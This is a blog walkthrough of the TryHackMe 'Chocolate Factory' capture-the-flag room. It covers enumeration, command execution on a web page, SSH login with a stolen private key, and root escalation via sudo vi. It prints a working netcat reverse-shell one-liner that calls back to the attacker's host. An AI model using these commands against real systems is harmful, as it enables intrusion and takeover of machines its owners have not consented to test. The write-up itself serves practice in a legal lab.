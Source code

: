 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2017-09-12 00:00:00 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```


Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners 

Let’s get started.
Firstly Diploy the machine and Wait a minute for get ip address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)

### Enumeration 
 > sudo nmap -sV -sC -v <ip>
   <br />
  -sV: Probe open ports to determine service/version info <br />
  -sC: equivalent to --script=default <br />
   -v: verbose mode <br />
the result like look,<br />

![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/nmap.png)  

There can see ftp running on port 21,ssh running on port 22 and webserver in port 80 Then try Open browser enter ip address default webserver running in port 80 

I trying sqlinjection but nothing changes ,So Check the directories using gobuster 
> gobuser dir -u <ip> -w /usr/share/seclists
  
OK.. Here see home.php <br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  try system commands then reverse connection command 
  
 : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
 
 remember one thing  disable your ufw firewall before run the listerning netcat <br />
  listern our system 
  > nc -lvnp  <br />
    -l listen mode, for inbound connects <br />
    -v verbose <br />
    -n numeric-only IP addresses, no DNS <br />
    -p local port number <br />
   ! [reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   use python3 shell for better interaction <br />
   python3 -c 'import pty; pty.spawn("/bin/sh")' <br />
   then list out file and read key
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   change the user to charlie <br/>
   /home/charlie and list all files <br />
   found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change permission
   > chmod 600 filename <br />
   login with ssh charlie 
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png) <br />
   read the user key <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png) <br />
  ### privilege escalation 
  
    check the current user privilege 
    > sudo -l 
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png)
   get root permission using vi 
   use this website gtfobins.github.io/
   search vi get result 
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png) <br />
   copy the command and paste into terminal 
   Now root user
   change charlie to root 
   su root 
   run the file with key
   DONE 
  
 

